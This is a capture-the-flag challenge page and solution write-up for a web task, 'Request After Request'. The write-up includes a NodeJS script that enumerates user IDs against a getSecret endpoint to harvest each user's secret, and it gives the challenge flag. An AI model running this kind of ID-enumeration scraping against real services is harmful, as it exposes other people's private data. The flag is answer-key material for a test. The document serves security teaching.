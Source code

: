 # Request After Request

- Published: 04/27/2024 (#11/14 in round)
- Category: WebEx/Cryptography
- Points: 120
- Author: kshau

Secrets can sometimes be leaked...

## Attachments

- [https://csd.shaurya.pro/RequestAfterRequest](https://csd.shaurya.pro/RequestAfterRequest)

## Hint

This hint costed 10 points.

<details>
<summary>Reveal hint</summary>

Check the "Network" tab in dev browser tools and reload the page.

</details>

## Write-up

<details>
<summary>Reveal write-up</summary>

- Upon opening the website, visit the `Network` tab in dev browser tools and reload the page
- This should reveal a POST request being made to the `/RequestAfterRequest/getSecret` endpoint with the payload and response shown below

**Payload:**

```json
{"user": "354"}
```

**Response:**

```json
{"secret": "(blank)"}
```

- Use this same POST request to write a script that POST requests every user's secret (1,834 total users as shown on the site)
- The example shown below is a script written in NodeJS

```js
const {fetch} = require("undici");

async function getUserSecret(user) {
  
  const res = await fetch("https://csd.shaurya.pro/RequestAfterRequest/getSecret", {
    "headers": {
      "content-type": "application/json"
    },
    "body": JSON.stringify({"user": user}),
    "method": "POST"
  });

  const json = await res.json();

  const {secret} = json;
  return secret;
  
}

(async () => {

  for (var i = 0; i <= 1834; i++) {
    
    const secret = await getUserSecret(i.toString());

    console.log(`Checking secret of user ${i}`)

    if (secret != "(blank)") {
      console.log(secret);
      break;
    }
    
  }
  
})()
```

- The code should check every user's secret, and should output a long base64 string after checking the 1,372th user
- Go to [CyberChef](https://gchq.github.io/CyberChef)
- Input the base64 string in the `Input` field
- Next to the `Output` field label, click the magic wand icon
- This will reveal an image with the flag on it

Flag: `csd{NC1_15_510W1Y_8UrN1N6_M3_411V3}`

</details>

Write-up by kshau
